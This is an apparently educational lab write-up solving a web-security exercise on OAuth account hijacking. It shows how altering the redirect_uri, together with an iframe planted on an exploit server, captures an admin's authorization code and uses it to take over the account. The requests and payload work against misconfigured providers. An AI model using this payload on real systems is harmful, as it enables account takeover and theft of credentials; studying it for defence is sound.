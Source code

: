 # OAuth account hijacking via redirect_uri

## Request
A misconfiguration by the OAuth provider makes it possible to steal authorization codes.

The goal is to steal teh admin user's authorization code, and use it to access the account and delete the user `carlos`.

The admin opens anything you send from the exploit server and try to always have an active session

`wiener:peter` can be used to login.

## Solution
First we login with the given credentials, and log out.

When we try to login again, it doesn't ask us about the credentials.

Let's observe the request sent.

```http
GET /auth?client_id=pu2u6xwtb9j9n57e8ni68&redirect_uri=https://0a7e0086035c1a7a80fca3f600a400ef.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/2
Host: oauth-0ae8009703ac1a218045a11702860028.oauth-server.net
```

When sending this we have a response `302` that in the body contains the redirection to the url that was given in the `GET` request, part of the `redirect_uri`:

```http
Redirecting to https://0a7e0086035c1a7a80fca3f600a400ef.web-security-academy.net/oauth-callback?code=4zfsXA_H6Au588s5dvj-cEGgxVG06qder8QWmWzogVb.
```

So, let's just change the value of `redirect_uri` to our exploit server:

```http
GET /auth?client_id=pu2u6xwtb9j9n57e8ni68&redirect_uri=https://exploit-0ae2006103d41a10807ea2aa01160093.exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email HTTP/2
Host: oauth-0ae8009703ac1a218045a11702860028.oauth-server.net
```

Now we see that our exploit server is reflected on the body of the response, and we forward the redirection, which shows the body of the page that we have on our exploit server. A simple `Hello, world!`.

And in the access logs of our exploit server, we see the authorization code being provided.

```http
GET /exploit?code=6LmryPMEIdmr8yNKxzBZEUZLTA-QscA0nAdHE6PyOJ7 HTTP/1.1" 200 "user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 
...
```

Now, let's try to get the admin user's code, and for this we need to modify the body of our exploit server.

```http
<iframe src="https://oauth-0ae8009703ac1a218045a11702860028.oauth-server.net/auth?client_id=pu2u6xwtb9j9n57e8ni68&redirect_uri=https://exploit-0ae2006103d41a10807ea2aa01160093.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

And now we deliver this to our victim, and when checking the activity log, we see the authorization code now.

```http
GET /?code=pgpOxXpxi479X7amBd9fR2p0lTAEX91_HdM75G-nrh4 HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko)
...
```

Now we navigate to 
```url
https://0a7e0086035c1a7a80fca3f600a400ef.web-security-academy.net/oauth-callback?code=pgpOxXpxi479X7amBd9fR2p0lTAEX91_HdM75G-nrh4
```

and we see that we are logged in as admin, and we continue to delete the user `carlos` from the admin panel.


